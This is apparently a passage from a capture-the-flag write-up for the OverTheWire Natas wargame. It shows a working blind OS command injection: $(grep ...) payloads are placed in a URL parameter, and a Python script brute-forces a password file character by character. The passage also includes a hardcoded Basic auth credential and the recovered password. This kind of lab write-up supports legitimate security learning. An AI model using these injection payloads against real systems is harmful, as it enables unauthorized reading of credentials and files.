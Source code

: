 ```python
def find_pass_content():
    password = ""
    pass_length = find_pass_length()
    for i in range(1, pass_length + 1):
        password += get_char(i)
        print(f"🔍 Password: {password}", end="\r", flush=True)
      print(f"\n✅ Password found: {password}")

find_pass_content()
```
## Natas17 

- This is blind OS cmd injection
- Server not render result when we inject an OS cmd
- I will try with $(sleep 10)
```python
needle=%24%28sleep+10s%29
```

- I have a atkack vector with grep cmd and behavior of server
```shell
$(grep ^(pass_char) /etc/natas_webpass/natas17)
```
- this cmd will check string start with pass_char in file -> i can brute fore
```shell
$(grep ^(pass_char) /etc/natas_webpass/natas17)cools
```
- if cools not in reponse -> i found a char in pass

```python
import requests
burp0_headers = {

    "Authorization": "Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
}

filteredchars = ''
password = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

for x in range(32):
    for char in allchars:
        injection = password + char
        url = f"http://natas16.natas.labs.overthewire.org/?needle=$(grep ^{injection} /etc/natas_webpass/natas17)cools"
        rq = requests.get(url, headers=burp0_headers)
        if 'cools' not in rq.text:
            password += char
            print(password)
            break
#EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```
## Natas18
